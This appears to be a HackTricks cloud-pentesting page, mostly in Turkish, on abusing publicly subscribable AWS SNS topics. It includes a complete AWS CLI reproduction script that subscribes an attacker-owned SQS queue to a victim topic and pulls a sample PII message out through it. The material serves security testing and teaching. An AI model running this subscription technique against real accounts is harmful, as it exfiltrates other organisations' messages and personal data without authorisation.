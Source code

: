 # AWS - SNS Unauthenticated Enum

{{#include ../../../../banners/hacktricks-training.md}}

## SNS

SNS hakkında daha fazla bilgi için bakın:

{{#ref}}
../../aws-services/aws-sns-enum.md
{{#endref}}

### Herkese Açık

Web konsolundan bir SNS topic'i yapılandırırken konunun **Everyone can publish and subscribe** olarak işaretlenebileceğini belirtebilirsiniz:

<figure><img src="../../../../images/image (212).png" alt=""><figcaption></figcaption></figure>

Dolayısıyla hesap içindeki konuların **find the ARN of topics** (veya konu isimlerini brute forcing ile deneme) halinde onlara **check** ederek **publish** veya **subscribe** yapıp yapamayacağınızı görebilirsiniz.

Bu, bir SNS topic resource policy'sinin `sns:Subscribe`'u `*` (veya dış hesaplara) izin verecek şekilde ayarlanmasına eşdeğerdir; böylece herhangi bir principal, sahip olduğu bir SQS kuyruğuna tüm gelecekteki konu mesajlarını teslim eden bir subscription oluşturabilir. Kuyruk sahibi subscription'ı başlattığında, SQS endpoint'leri için insan onayı gerekmez.

<details>
<summary>Repro (us-east-1)</summary>
```bash
REGION=us-east-1
# Victim account (topic owner)
VICTIM_TOPIC_ARN=$(aws sns create-topic --name exfil-victim-topic-$(date +%s) --region $REGION --query TopicArn --output text)

# Open the topic to anyone subscribing
cat > /tmp/topic-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"OpenSubscribe","Effect":"Allow","Principal":"*","Action":"sns:Subscribe","Resource":"$VICTIM_TOPIC_ARN"}]}
JSON
aws sns set-topic-attributes --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --attribute-name Policy --attribute-value file:///tmp/topic-policy.json

# Attacker account (queue owner)
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name attacker-exfil-queue-$(date +%s) --region $REGION --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Allow the victim topic to send to the attacker queue
cat > /tmp/sqs-policy.json <<JSON
{"Version":"2012-10-17","Statement":[{"Sid":"AllowVictimTopicSend","Effect":"Allow","Principal":{"Service":"sns.amazonaws.com"},"Action":"sqs:SendMessage","Resource":"$ATTACKER_Q_ARN","Condition":{"ArnEquals":{"aws:SourceArn":"$VICTIM_TOPIC_ARN"}}}]}
JSON
aws sqs set-queue-attributes --queue-url "$ATTACKER_Q_URL" --region $REGION --attributes Policy="$(cat /tmp/sqs-policy.json)"

# Subscribe the attacker queue to the victim topic (auto-confirmed for SQS)
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --protocol sqs --notification-endpoint "$ATTACKER_Q_ARN" --query SubscriptionArn --output text)

# Validation: publish and receive
aws sns publish --region $REGION --topic-arn "$VICTIM_TOPIC_ARN" --message {pii:ssn:123-45-6789}
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 10 --query Messages[0].Body --output text
```
</details>

{{#include ../../../../banners/hacktricks-training.md}}
